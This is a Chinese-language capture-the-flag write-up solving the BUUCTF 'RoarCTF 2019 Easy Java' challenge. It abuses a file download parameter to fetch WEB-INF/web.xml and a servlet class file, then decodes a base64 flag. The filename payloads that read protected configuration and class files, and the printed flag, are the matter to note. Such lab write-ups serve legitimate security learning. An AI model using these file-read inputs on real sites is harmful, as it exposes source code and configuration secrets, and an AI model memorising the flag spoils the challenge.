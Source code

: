 # T17 Easy Java

> 题目：buuctf [RoarCTF 2019]Easy Java

__0x00 审题__

打开还是登录页面，sql试了啥也没有，怎么办，有个help点开

```
java.io.FileNotFoundException:{help.docx}
```
这是个啥

这里还是注意url：Download?filename=help.docx

有个下载?

因为对JAVA很陌生，不太了解它的方法

__0x01 解题__

1. 关于本题应用到的漏洞

> WEB-INF/web.xml泄露
> > WEB-INF是Java的WEB应用的安全目录。如果想在页面中直接访问其中的文件，必须通过web.xml文件对要访问的文件进行相应映射才能访问。

```java
    /WEB-INF/web.xml：Web应用程序配置文件，描述了 servlet 和其他的应用组件配置及命名规则。
    /WEB-INF/classes/：含了站点所有用的 class 文件，包括 servlet class 和非servlet class，他们不能包含在 .jar文件中
    /WEB-INF/lib/：存放web应用需要的各种JAR文件，放置仅在这个应用中要求使用的jar文件,如数据库驱动jar文件
    /WEB-INF/src/：源码目录，按照包名结构放置各个java文件。
    /WEB-INF/database.properties：数据库配置文件
```
> > 关于这种漏洞的方法介绍：通过找到web.xml文件，推断class文件的路径，最后直接class文件，在通过反编译class文件，得到网站源码。

* 就是说，Java内部异常，Java中的所有文件都是可见的？所以我们该如何得到

2. POST方法传参

```
?filename=/WEB-INF/web.xml
```

下载一个文件，重点：

```
<servlet-name>FlagController</servlet-name>
<servlet-class>com.wm.ctf.FlagController</servlet-class>
</servlet>
<servlet-mapping>
<servlet-name>FlagController</servlet-name>
<url-pattern>/Flag</url-pattern>
```


直接搜索Flag，得到

```
java.lang.NoClassDefFoundError: com/wm/ctf/FlagController (wrong name: FlagController)
```

我们需要其中Flag类下的class文件，通过post 我们去看Flag

```
filename=WEB-INF/classes/com/wm/ctf/FlagController.class
```

得到文件，用text打开

```
ZmxhZ3tjMjkzYTA4ZC1hZWU4LTQ1N2UtOTNmNy1jYTA5ZDc1MmE0Y2N9Cg==
```

__0x02 答案__

通过base64解码，得到flag







